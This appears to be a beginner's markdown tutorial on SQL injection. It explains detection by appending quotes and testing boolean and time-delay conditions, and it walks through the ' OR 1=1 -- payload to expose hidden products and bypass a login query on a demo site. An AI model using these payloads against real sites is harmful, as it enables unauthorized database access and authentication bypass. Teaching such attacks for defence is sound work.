

SQL injection is a type of cyberattack where malicious SQL code is inserted into a query in order to manipulate a database. This vulnerability typically occurs when user inputs are improperly validated or sanitized, allowing an attacker to execute arbitrary SQL commands.

## why it can be used ?
- Bypass Authentication mechanism
- Retrieve Sensitive information
- Alter or Delete datas.
- Take control of the databases.


## how to detect SQL injection Vulnerabilities ?
- add `'` character at the end of URL and look for error , if errors occurs it means site is vulnerable to SQL injection.
- Submit boolean conditions such as `OR 1=1 ` and `OR 1=2`, and look for differences in the application's responses.
- Submit payloads designed to trigger time delays and look for the differences in the time taken to respond.

## Usual locations where SQL injection can be applied .
- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.

## Examples of SQL injections:
we can display the product of different categories using :
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

the above query will displays the products which category is Gifts and which is also released. 
```
NOTE:
released = 1 means released
released = 0 means not released
```

now we can display the products of any category , either that is released or unreleased products.

payloads : ``` ' OR 1=1 --```

URL before payload :
```
https://demosite.com/products?category=Gifts
```

after adding payloads:
```
https://demosite.com/products?category=Gifts' OR 1=1 --
```

Results in SQL Query :
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

you can see in the above query , the query will check for the product with Gifts category or 1= 1 which is always true . and the rest of the logic where commented and no longer working and it will display the unreleased products too.


### Login  Bypass using SQL injection :



you can see how login Authenication in the system. Attacker manipulate the whole query by sending payloads as a username or password. 

authentication logic using SQL:
```
SELECT * FROM users WHERE username = '' AND password = '' ;
```

Payloads :
```
' OR 1=1 --
```

Manipulated Query :
```
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '' ;

```

The manipulated query above checks if the username is empty or if 1=1. Since 1=1 is always true, according to Boolean logic, if one condition is true, the entire expression will evaluate to true, allowing the user to log in. you can search the payload online or can be ask to chatgpt.


